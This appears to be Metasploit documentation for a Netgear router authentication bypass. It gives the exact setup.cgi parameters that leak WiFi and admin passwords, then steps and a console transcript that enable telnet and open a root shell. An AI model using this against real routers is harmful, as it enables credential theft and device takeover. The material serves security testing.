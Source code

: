 ## Introduction
This module targets an authentication bypass vulnerability in the `mini_http` binary of several Netgear Routers
running firmware versions prior to `1.2.0.88`, `1.0.1.80`, `1.1.0.110`, and `1.1.0.84`.

Specifically, a call to `strstr()` is used to check if requests are authenticated, which searches any requests
that come in to an authenticated page to see if it contains the string `todo=PNPX_GetShareFolderList` anywhere
within the request. By including the string `todo=PNPX_GetShareFolderList` in the request,

By using this vulnerability to send a request to `/setup.cgi` with the `next_file` GET parameter set to `BRS_swisscom_success.html`
and a `x` GET parameter set to `todo=PNPX_GetShareFolderList`, an unauthenticated attacker can leak the plaintext versions of
all of the router's WiFi passwords, as well as the admin username and plaintext admin password for the router.

Once the password has been been obtained, the exploit enables telnet on the target router by sending a request to `setup.cgi`
with the `todo` GET parameter set to `debug`. Once telnet has been enabled, it then utilizes the
`auxiliary/scanner/telnet/telnet_login` module to log into the router using the stolen credentials of the
`admin` user. This will result in the attacker obtaining a new telnet session as the `root` user.

This vulnerability was discovered and exploited by an independent security researcher who reported it to SSD.


## Vulnerable Application

- AC2100 prior to firmware version 1.2.0.88
- AC2400 prior to firmware version 1.2.0.88
- AC2600 prior to firmware version 1.2.0.88
- D7000 prior to firmware version 1.0.1.80
- R6220 prior to firmware version 1.1.0.110
- R6230 prior to firmware version 1.1.0.110
- R6260 prior to firmware version 1.1.0.84
- R6330 prior to firmware version 1.1.0.84
- R6350 prior to firmware version 1.1.0.84
- R6700v2 prior to firmware version 1.2.0.88
- R6800 prior to firmware version 1.2.0.88
- R6850 prior to firmware version 1.1.0.84
- R6900v2 prior to firmware version 1.2.0.88
- R7200 prior to firmware version 1.2.0.88
- R7350 prior to firmware version 1.2.0.88
- R7400 prior to firmware version 1.2.0.88
- R7450 prior to firmware version 1.2.0.88

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass`
  3. Do: `set RHOSTS <RouterIP>`
  5. Do: `exploit`
  6. Verify that you get a new telnet shell as the `root` user on the target router.

## Options

## Scenarios

### Netgear AC1600 aka R6260 with Firmware Version 1.1.0.40_1.0.1
```
msf6 > use auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass
msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > show options

Module options (auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.1      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metaspl
                                       oit
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > run
[*] Running module against 192.168.1.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is a R6260 router running firmware version 1.1.0.40_1.0.1
[+] The target appears to be vulnerable.
[*] Confirming target is a Netgear Router...
[+] Target is a Netgear router!
[*] Attempting to leak the password of the admin user...
[+] Can log into target router using username admin and password theRiverOfNope123!
[*] Attempting to retrieve /top.html to verify we are logged in!
[*] Sending one request to grab authorization cookie from headers...
[*] Got the authentication cookie, associating it with a logged in session...
[+] Successfully logged into target router using the stolen credentials!
[*] Attempting to store credentials for future use...
[*] Enabling telnet on the target router...
[+] Telnet enabled on target router!
[*] Attempting to log in with admin:theRiverOfNope123!. You should get a new telnet session as the root user
[*] Command shell session 1 opened (192.168.224.128:38283 -> 192.168.1.1:23) at 2021-09-22 13:56:50 -0500
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > sessions -i 1
[*] Starting interaction with 1...



# id
id
-sh: id: not found
# whoami
whoami
-sh: whoami: not found
# uname -a
uname -a
Linux R6260 2.6.36 #7 SMP Fri Jul 20 17:14:50 CST 2018 mips unknown
# ls -al
ls -al
drwxr-xr-x   12 root     root          286 Jun 21  2016 .
drwxr-xr-x   12 root     root          286 Jun 21  2016 ..
lrwxrwxrwx    1 root     root            9 Jul 20  2018 bin -> usr/sbin/
drwxrwxr-x    2 root     root            3 Aug 15  2015 data
drwxr-xr-x    5 root     root            0 Dec 31 16:00 dev
lrwxrwxrwx    1 root     root            8 Jul 20  2018 etc -> /tmp/etc
lrwxrwxrwx    1 root     root           11 Jul 20  2018 etc_ro -> /tmp/etc_ro
lrwxrwxrwx    1 root     root           20 Jul 20  2018 home -> /tmp/home_directory/
lrwxrwxrwx    1 root     root           11 Jul 20  2018 init -> bin/busybox
drwxr-xr-x    6 root     root         4629 Jul 20  2018 lib
drwxr-xr-x    2 root     root            0 Dec 31 16:00 media
lrwxrwxrwx    1 root     root            8 Jul 20  2018 mnt -> /tmp/mnt
drwxrwxr-x    6 root     root           73 Jul 20  2018 opt
dr-xr-xr-x  113 root     root            0 Dec 31 16:00 proc
lrwxrwxrwx    1 root     root            9 Jul 20  2018 sbin -> usr/sbin/
drwxr-xr-x   11 root     root            0 Dec 31 16:00 sys
drwxr-xr-x   16 root     root            0 Dec 31 19:21 tmp
drwxr-xr-x   10 root     root          151 Jun 21  2016 usr
lrwxrwxrwx    1 root     root            8 Jul 20  2018 var -> /tmp/var
lrwxrwxrwx    1 root     root            8 Jul 20  2018 www -> /tmp/www
drwxrwxr-x    8 root     root        16662 Jul 20  2018 www.eng
# busybox
busybox
BusyBox v1.12.1 (2018-07-18 20:59:15 CST) multi-call binary
Copyright (C) 1998-2008 Erik Andersen, Rob Landley, Denys Vlasenko
and others. Licensed under GPLv2.
See source distribution for full notice.

Usage: busybox [function] [arguments]...
   or: function [arguments]...

        BusyBox is a multi-call binary that combines many common Unix
        utilities into a single executable.  Most people will create a
        link to busybox for each function they wish to use and BusyBox
        will act like whatever it was invoked as!

Currently defined functions:
        [, [[, arp, ash, awk, basename, bunzip2, bzcat, cat, chmod, chpasswd,
        cp, cut, date, dd, df, dmesg, echo, expr, false, fdisk, find, free,
        ftpget, grep, gzip, halt, head, hexdump, hostname, ifconfig, init,
        init, insmod, kill, killall, ln, login, ls, lsmod, md5sum, mdev,
        mkdir, mknod, more, mount, mv, netstat, nice, passwd, pidof, ping,
        ping6, poweroff, ps, pwd, reboot, renice, rm, rmmod, route, sed,
        seq, sh, sleep, sync, tail, tar, taskset, telnetd, test, tftp,
        time, top, touch, tr, traceroute, true, umount, uname, unzip, vconfig,
        vi, wc, wget

#
```

